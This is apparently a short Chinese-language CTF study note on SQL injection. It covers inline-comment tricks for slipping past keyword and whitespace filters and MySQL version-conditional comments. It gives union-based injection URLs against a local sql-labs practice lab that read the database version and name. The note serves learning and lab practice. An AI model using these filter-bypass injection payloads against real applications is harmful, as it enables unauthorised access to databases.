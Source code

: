 ```yaml
---
tags:
  - SQL
  - CTF
---
```

来源
http://drops.xmd5.com/static/drops/tips-7840.html
来源(http://drops.xmd5.com/static/drops/tips-7840.html)



# 行内注释
- `/*注释内容*/`(适用于MYSQL和SQL Sever)
    - `DROP/*comment*/sampletable`
    - `DR/**/OP/*绕过过滤*/sampletable`
    - `SELECT/*替换空格*/password/**/FROM/**/Members`

MySQL专属
`select /*!80012 1/0,*/`
当MySQL版本大于80012（8.0.12）时，注释内的语句会被执行
以sql-labs为例
- mysql版本为5.7.26（50726）
- http://localhost/sql-labs/Less-2/?id=-1 union SELECT /*!80012 1/0, version(),database()*/
![](图片/Pasted%20image%2020241201092635.png)
sql语句错误
- http://localhost/sql-labs/Less-2/?id=-1 union SELECT /*!50726 1/0, version(),database()*/
![](图片/Pasted%20image%2020241201092651.png)
sql语句可以执行

